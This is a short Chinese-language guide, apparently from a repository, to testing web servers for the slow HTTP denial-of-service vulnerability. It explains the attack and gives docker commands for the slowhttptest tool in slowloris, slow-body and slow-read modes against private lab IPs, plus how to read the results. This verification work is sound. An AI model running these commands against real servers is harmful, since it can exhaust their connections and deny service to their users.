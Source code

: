 # slowhttptest

## 说明

```
HTTP Post慢速DoS攻击第一次在技术社区被正式披露是2012年的OWASP大会上（https://owasp.org/www-pdf-archive/Layer_7_DDOS.pdf），由Wong Onn Chee 和 Tom Brennan共同演示了使用这一技术攻击的威力，Slow HTTP Denial of Service Attack 中文叫作缓慢的HTTP攻击漏洞，服务器在接收到请求时，彻底接收之后才会处理请求，若是攻击者发送的比较缓慢或者发送的不完整，服务器会保留其链接，占用资源池，若是请求数量较多，就会造成 DDOS 攻击。利用的HTTP POST的时候，指定一个非常大的content-length，然后以很低的速度发包，比如10-100s发一个字节，hold住这个连接不断开。这样当客户端连接多了后，占用住了webserver的所有可用连接，从而导致DDOS。
```

## 验证工具

> [shekyan/slowhttptest: Application Layer DoS attack simulator (github.com)](https://github.com/shekyan/slowhttptest)

### 使用docker

```shell
#拉取官方最新版本
docker pull shekyan/slowhttptest:latest
#启动测试
docker run -i -t shekyan/slowhttptest -c 1000 -H -i 110 -r 200 -t GET -u http://192.168.33.130:8090/ -x 24 -p 3 -l 200
#重要参数说明  -c 400 -H -i 10 -r 200 -t GET -u https://10.0.12.6:9443/ -x 24 -p 3 -l 200
-u 要验证的地址，https://10.0.12.6:9443/ 如果在本机验证，因为是docker环境动不要使用localhost，请使用主机的ip地址
-c 400:总连接数
-H: slowloris模式
-i 10:发送数据间的间隔10s
-r 200: 200个连接每秒-t GET:使用GET请求-u url
-x 24:发送的最大数据长度24
-p 3∶等待3秒来确定DoS攻击是否成功
-l 200:测试持续时间
# 慢速消息正文模式下的使用示例:
docker run -i -t shekyan/slowhttptest -c 1000 -B -i 110 -r 200 -s 8192 -t FAKEVERB -u http://192.168.33.130:8090/ -x 10 -p 3


# 慢速读取
docker run -i -t shekyan/slowhttptest -c 1000 -X -r 1000 -w 10 -y 20 -n 5 -z 32 -u http://192.168.33.130:8090/ -p 5 -l 350
```

### 结果说明

测试结束后 connected数量较多，closed数量很少或为0，说明之前建立的400个慢速攻击测试连接没有被关闭，存在漏洞

1. 测试发起的连接较少，不能以“service available”参数作为依据。
2. 若结果为“Exit status: No open connections left”，则不存在漏洞
